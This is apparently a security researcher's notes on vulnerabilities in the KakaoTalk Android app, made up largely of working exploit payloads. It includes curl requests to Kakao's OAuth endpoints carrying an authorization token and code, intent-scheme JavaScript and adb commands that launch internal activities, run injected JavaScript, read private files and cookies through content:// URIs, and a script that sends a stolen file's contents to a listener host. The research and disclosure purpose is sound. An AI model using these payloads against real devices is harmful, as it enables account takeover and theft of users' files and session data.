 ```bash
    -H $'Host: kauth.kakao.com' -H $'Authorization: 595c420c563848109b87a2677285cbaf00000016998108925870010obQDJlP7u9-308521c7f910140c1af15a83f7ef2282864e0e4f3c1ee88e97e3964f07cdc0e2' -H $'User-Agent: KT/10.1.7 An/11 en;KAKAOTALK' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' \
    $'https://kauth.kakao.com/oauth/authorize?client_id=24b2ff717557a8090279253242652f80&redirect_uri=kakao24b2ff717557a8090279253242652f80%3A%2F%2Foauth&response_type=code'

curl -i -s -k -X $'POST' \
    -H $'Host: kauth.kakao.com' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 271' -H $'Accept-Encoding: gzip, deflate' -H $'User-Agent: okhttp/4.9.3' -H $'Connection: close' \
    --data-binary $'client_id=24b2ff717557a8090279253242652f80&code=pYn2ksN-KH8bIaCHp3OwiM98G5xgdzkEvIgA4HDBhUT-uVcrTXzHiEgp1vA1HrERSESLXQoqJY8AAAGI3iGODg&grant_type=authorization_code&android_key_hash=S2FrYW9JIE1hc3RlciBLZXkg&redirect_uri=kakao24b2ff717557a8090279253242652f80%3A%2F%2Foauth' \
    $'https://kauth.kakao.com/oauth/token'
```
- I can start arbitrary components via the `intent:` scheme in `CommerceBuyActivity` (`kakaotalk://buy`)
  - I can exfiltrate files by sending Intents with `content://` URLs to `MyProfileSettingsActivity`:
```javascript
// Read Firebase Installation configuration
location.href = "intent:#Intent;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity;S.EXTRA_URL=content://com.kakao.talk.FileProvider/onepass/PersistedInstallation.W0RFRkFVTFRd+MTo1NTIzNjczMDMxMzc6YW5kcm9pZDpiNjUwZmVmOGI2MDY1MzVm.json;end"
var data = document.querySelector('pre').innerHTML;
img = new Image();
img.src = 'http://10.0.2.2:8888?data=' + encodeURIComponent(data);
```
- I can open arbitrary URLs via `KGPopupActivity`, `MyProfileSettingsActivity` and `CommerceShopperWebViewActivity`:
  - `adb shell am start "intent:#Intent\;component=com.kakao.talk/.gametab.view.KGPopupActivity\;S.url=https://foo.com\;end"`
  - `location.href = "intent:#Intent;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity;S.EXTRA_URL=http://10.0.2.2:8888/;end"`
  - `location.href = "intent:#Intent;component=com.kakao.talk/com.kakao.talk.commerce.ui.shopper.CommerceShopperWebViewActivity;S.URL=https://foo.com;end"`
  - `InAppBrowserActivity` -> `kakaointernalweb://host/q?url=https://www.foo.com&spamType=0&isPlusType=true`
  - `BizInAppBrowserActivity`-> `kakaotalk://bizwebview/open?url=http://www.foo.com`
- I can execute JavaScript by:
  - Pointing to attacker-controlled URLs
  - Using the `data:` scheme, e.g.: `location.href = "intent:#Intent;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity;S.EXTRA_URL=data%3Atext%2Fhtml%2C%3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E;end"`
  - Using the `javascript:` scheme, e.g.: `location.href = "intent:#Intent;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity;S.EXTRA_URL=javascript:alert%28%221%22%29;end"`
- I can access `/storage`, `/data/data/com.kakao.talk/files`, `/data/data/com.kakao.talk/cache` directories by opening `content:` URLs in `MyProfileSettingsActivity`, `KaKaoMailDocumentViewWebActivity`, and others, e.g.:
  - `location.href = "intent:#Intent;component=com.kakao.talk/.activity.kakaomail.KaKaoMailDocumentViewWebActivity;S.url=content://com.kakao.talk.FileProvider/onepass/PersistedInstallation.W0RFRkFVTFRd+MTo1NTIzNjczMDMxMzc6YW5kcm9pZDpiNjUwZmVmOGI2MDY1MzVm.json;S.subContent=foo;end"`
  - Reading a cookie: `adb shell content read --uri "content://com.kakao.talk.FileProvider/external_files/emulated/0/Android/data/com.kakao.talk/KakaoTalk/cookie/.57f323da7592b0b5de1360de3da701b0d1aa6627"`
  - Using the `android-app:` scheme: `adb shell am start "android-app://#Intent\;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity\;S.EXTRA_URL=content://com.kakao.talk.FileProvider/external_files/emulated/0/Android/data/com.kakao.talk/KakaoTalk/cookie/.57f323da7592b0b5de1360de3da701b0d1aa6627\;end"`
- There are a couple of JavaScript interfaces that access the user's location (see [below](#javascriptinterface))
- Auto-download to `/sdcard/Download` via Chrome (`app://kakaotalk/openURL?url=`)
- I can access other `BROWSABLE` Activities or Apps via the `android-app:` scheme, e.g.:
  - `location.href = "android-app://com.google.android.googlequicksearchbox/https/www.google.com"`